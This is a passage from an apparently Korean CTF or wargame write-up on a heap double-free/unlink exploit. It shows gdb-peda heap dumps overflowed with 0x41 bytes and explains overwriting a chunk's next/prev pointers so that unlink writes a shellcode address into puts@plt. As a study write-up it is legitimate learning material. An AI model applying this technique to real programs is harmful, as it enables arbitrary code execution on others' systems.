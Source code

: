 ```
0x804873b:	mov    DWORD PTR [eax+0x4],edx
```

즉 [eax+0x4]에 edx를 저장하려고 보니 [0x41414141+0x4]에는 할당된 값도 없고, 

할당 되었다고 하더라도 RW권한이 없을 수도 있음.

첫 번째 장애물을 넘기기 위해서 정확히 0x41414141을 어떻게 어디로 바꾸어야 하는 지 살펴보아야 함.

### 두 번째 실험

```
gdb-peda$ x/256wx 0x804c018-12
0x804c00c:	0x00000091	0x0804c09c	0x0804c000	0x00000000
0x804c01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c06c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c07c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c08c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c09c:	0x00000091	0x0804c12c	0x0804c00c	0x41414141
0x804c0ac:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0bc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0cc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0dc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0ec:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0fc: 	0x41414141	0x41414141	0x41414141	0x41414141
0x804c10c:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c11c:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c12c:	0x00000091	0x0804c1bc	0x0804c09c	0x00000000
            ~~~~size    ~~~ next    ~~~ prev
```

double free는 linked list의 next/ prev를 가리키는 포인터를 조작하면서 발생하는 

overflow이기 때문에 이점을 잊어서는 안됨.

`unlink()` 함수가 동작하면, 

1. 삭제되는 node의 prev->next에 삭제되는 node의 next값이 저장됨.

2. 삭제되는 node 바로 앞 (우리가 공격에 사용했던 node 1) 노드의 next->prev에 삭제되는 노드의 prev 주소를 넣음

정리하면,
1, 2에서 사용되는 삭제되는 노트의 next/ prev 주소를 우리는 공격을 통해서 변조 시킬 수 있음.

`prev->next`에 덮어써질 주소는 `puts@plt`의 주소

`next->prev`에 덮어써질 주소는 `SHELLCODE`의 주소

### 실험 3 

```
gdb-peda$ x/100wx 0x804c018-12
0x804c00c:	0x00000091	0x0804c09c	0x0804c000	0x00000000
0x804c01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c06c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c07c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c08c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c09c:	0x00000091	0x0804c12c	0x0804c00c	0x41414141
0x804c0ac:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0bc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0cc:	0x41414141	0x41414141	0x41414141	0x41414141
```